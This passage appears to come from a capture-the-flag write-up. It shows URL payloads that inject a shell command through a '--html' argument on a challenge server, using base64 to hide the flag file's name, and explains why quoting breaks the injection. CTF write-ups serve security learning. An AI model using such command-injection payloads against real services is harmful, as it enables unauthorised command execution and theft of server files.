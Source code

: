 URL decoded:

```
http://challenges.oceaniacc.com:5001/;/--html=cat $(echo 'L2ZsYWcudHh0'|base64 -d)/man
```

Note a very interesting behaviour between the two payloads:

```
http://challenges.oceaniacc.com:5001/;/--html=%22cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/man
```

![Base64 Payload Stdout 1](./base64_payload_stdout_output_1.png)

```
http://challenges.oceaniacc.com:5001/;/--html=cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)/man
```

![Base64 Payload Stdout 2](./base64_payload_stdout_output_2.png)

The difference is that the value for the `--html` argument is wrapped with double quotes. When wrapped with double quotes, the payload does not work. This is because when wrapping the initial command in a shell with double quotes, it will include the spaces as a part of the binary that it's searching for to execute.

```sh
$ "ls -l"
sh: 15: ls -l: not found
$ ls -l
total 12
-rw-r--r-- 1 solopie solopie   89 Jan 14 22:51 README.m
```
